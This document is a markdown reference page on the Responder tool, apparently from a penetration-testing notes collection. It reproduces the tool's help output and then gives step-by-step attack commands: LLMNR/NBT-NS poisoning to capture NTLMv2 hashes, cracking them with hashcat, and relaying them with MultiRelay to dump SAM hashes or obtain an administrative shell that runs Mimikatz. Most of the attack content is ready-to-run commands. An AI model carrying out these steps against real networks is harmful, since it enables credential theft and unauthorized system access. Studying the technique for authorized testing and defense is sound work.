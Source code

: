 ```yaml
---
title: Responder
categories: [Ethical Hacking Tools,Credential Access]
tags: [responder, credential access (TA0006), llmnr, nbt-ns, mdns, aitm, mitm, hashcat, ntlmv2]
comments: true
---
```


# Overview

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication.

Responder come packaged with Kali Linux by default. [^1]

| Tool Name | Version | MITRE ATT&CK Tactic | MITRE ATT&CK Technique |
| --------- | ------- | ------------------- | ---------------------- |
| [Responder.py](https://github.com/lgandx/Responder) | v3.1.3.0 | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Adversary-in-the-Middle]() |

# Responder Help Page

```bash
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

Usage: responder -I eth0 -w -d
or:
responder -I eth0 -wd

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -6 2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed, --externalip6=2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed
                        Poison all requests with another IPv6 address than
                        Responder's one.
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -d, --DHCP            Enable answers for DHCP broadcast requests. This
                        option will inject a WPAD server in the DHCP response.
                        Default: False
  -D, --DHCP-DNS        This option will inject a DNS server in the DHCP
                        response, otherwise a WPAD server will be added.
                        Default: False
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  --disable-ess         Force ESS downgrade. Default: False
  -v, --verbose         Increase verbosity.
```

# Instructions

## Using Responder to Perform LLMNR Poisoning

Execute the below command on the attacker machine. Ensure that the `-I` switch is set to interface that is on the same network as the target.

```bash
# Running the listener will wait for a host to make a request
sudo responder -I ens33 -wd
```

Once a set of NTLMv2 credentials have been collection, the password can be attempted to be cracked.

### Cracking NTLMv2 Credentials with HashCat

With the previously obtained NTLMv2 credential hash collected and saved to a text file. It can be parsed through a credential cracking utility such as hashcat.

```bash
hashcat -m 5600 -a 0 /PATH/TO/DUMP.txt /usr/share/wordlists/rockyou.txt 
```

## Using Responder-Finger and Responder-MultiRelay

Responder comes packaged with additional tools can be used together with Responder to perform other tasks, such as relaying NTLMv2 credentials to gain authenticated access via SMB without the requirement to crack a collected NTLMv2 password hash. The below example shows how to identify systems that don't require SMB signing (a requirement for this method to work) using `Responder-Finger` and setup the `Responder-MultRelay` to gain authenticated access to another host. Local Administrative privileges is however a requirement for the process to work.

This will require three hosts; the attacker, the requesting LLMNR victim, and the target.

1. Configure the Responder configuration file located at `/etc/Responder/Responder.conf` (On Kali Linux) to disable SMB and HTTP sever instances.

    ```conf
    SMB = Off
    HTTP = Off
    ```

2. Start Responder to listen for LLMNR requests. Ensure that the `-I` switch is set to interface that is on the same network as the target.

    ```bash
    sudo responder -I ens33 -wd
    ```

3. Identify hosts on the target network that have SMB signing disabled, the `-i` switch requires the subnet to search. Once the results are returned, identify any hosts that return `SMB signing: False`. If none are returned, this method will not work and NTLMv2 credentials will need to be cracked instead.

    ```bash
    sudo responder-RunFinger.py -i 10.10.10.1/24
    ```

4. Start the MultiRelay to relay the NTLMv2 credentials to any target host identified in step 3. In this example, `10.10.10.10` was identified to have SMB signing disabled and is therefore used as the target `-t`. The `-d` switch will instruct the MultiRelay tool to dump the local password hashes. The `-d` switch can be omitted which will instead return an administrative shell to the target machine.

    ```bash
    sudo responder-MultiRelay.py -t 10.10.10.10 -u ALL -d
    ```

5. If the `-d` switch was omitted in step 4, an interactive shell will be returned allowed the following commands.

   - Dump: Extract the SAM database and print hashes
   - regdump KEY: Dump a HKLM registry key
   - read: Read a file
   - get: Download a file
   - delete: Delete a file
   - Upload: Upload a local file to `\windows\temp\`
   - runas: Run a command as the currently logged on user
   - scan: Performs a scan using SMB for other local targets (use /24 or /26 to limit scope)
   - mimi: Run a remote Mimikatz 64 command
   - mimi32: Run a remote Mimikatz 32 command
   - lcmd: Run a local command 

# Sources
[^1]: [Kali - Responder](https://www.kali.org/tools/responder/)